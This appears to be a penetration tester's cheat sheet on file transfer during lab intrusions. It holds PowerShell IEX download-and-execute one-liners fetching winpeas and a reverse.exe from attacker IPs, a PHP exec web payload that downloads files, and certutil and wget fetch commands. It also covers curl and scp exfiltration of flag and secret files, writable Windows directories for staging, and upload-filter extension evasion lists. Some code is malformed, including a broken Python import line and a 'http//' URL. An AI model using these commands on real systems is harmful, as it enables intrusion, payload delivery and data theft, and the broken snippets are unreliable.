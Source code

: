 # Linux

wget http://IP:PORT/FILE
# python 
python -m SimpleHTTPServer
python3 -m http.server

## http sever saves POST request data

```python
#!/usr/bin/python 
import SimpleHTTPServer
import BaseHTTPServer class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler): 
def do_PUT(self):
	print self.headers
	length = int(self.headers["Content-Length"]) 
	path = self.translate_path(self.path) 
	with open(path, "wb") as dst: 
	    dst.write(self.rfile.read(length)) 

    
 if __name__ == '__main__': 
	SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```




# Windows 

## Writable Directories
```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

## Powershell
```powershell
Powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/winpeas.bat')"

IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/winpeas.bat')

Invoke-WebRequest -Uri 10.10.16.4/winpeas.bat -OutFile winpeas.bat

IWR -Uri http://10.10.10.10/winpeas.bat -OutFile winpeas.bat

````


## Certutil
```bash
certutil -urlcache -f http://IP/FILE OUTPUTFILENAME
```

## SMB

### copy

![[SMB 443#SMB server]]
### connect smb windows powershell
```powershell


$pass = convertto-securestring '1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('super', $pass)
New-PSDrive -Name super -PSProvider FileSystem -Credential 
$cred -Root \\10.10.17.185\super

# add $pass variable with the share password 1234
# add $cred with the share creds username: super password: $pass variable
# New-PSDrive mount share

```
### Mount share

```
net use z: \\10.10.10.10\SHARENAME
```

# php
```php
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.17.185/FILE_NAME','OUT_FILE_NAME')\""); ?>
```

```powershell
powershell Invoke-WebRequest -Uri http://10.10.16.4/winpeas.bat -OutFile winpeas.bat

powershell Invoke-WebRequest -Uri http://10.10.16.4/reverse.exe -OutFile ke.exe

```

	# scp 
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:
SCP -i KEY FILE user@target:/tmp/FILE:
-i for ssh key
P - Specifies the remote host ssh port.
-p - Preserves files modification and access times.
-q - Use this option if you want to suppress the progress meter and non-error messages.
-C - This option forces scp to compresses the data as it is sent to the destination machine.
```bash
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:

scp charix@10.10.10.84:secret.zip . # getting secret.zip from charix usuer

```
# Curl
```bash
# Upload file with curl
curl DEST_IP --upload-file FILE
curl 192.77.184.2 --upload-file flag.zip
```





# FTP
```
python -m pyftpdlib 21
ftp 10.10.10.10
```



```
Invoke-WebRequest -Uri http//192.168.181.128/linPEAS.ps1 -OutFile
File C:\Users\administrator\Documents\WindowsPowerShell\Modules\Recon\adPEAS.ps1
```

# Extension evasion

**File Upload General Methodology**
Other useful extensions:
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, phar .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

  Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
Coldfusion: .cfm, .cfml, .cfc, .dbm
Flash: .swf
Perl: .pl, .cgi
Erlang Yaws Web Server: .yaws




 